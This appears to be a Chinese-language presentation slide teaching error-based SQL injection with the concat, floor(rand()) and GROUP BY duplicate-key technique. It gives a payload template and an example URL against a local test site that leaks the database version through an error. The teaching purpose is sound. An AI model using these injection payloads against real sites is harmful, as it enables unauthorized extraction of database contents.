

SQL注入漏洞-报错注入

2、 concat+rand()+group_by()导致主键重复错误

	这种报错方法的本质是因为floor(rand(0)*2)的重复性，导致group by语句出错。实际上只要是count，rand()，group by三个连用就会造成这种报错，与位置无关：
	group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中更新临时表的数据；如果key不在临时表中，则在临时表中插入key所在行的数据。

常见的payload为：'union select 1 from (select count(*),concat((slelect语句),floor(rand(0)*2))x from "一个足大的表" group by x)a--+

实例：http://127.0.0.1/cepo/?id=1' and (select 1 from (select count(*),concat((select version()),floor(rand()*2))x from information_schema.tables group by x)a) --+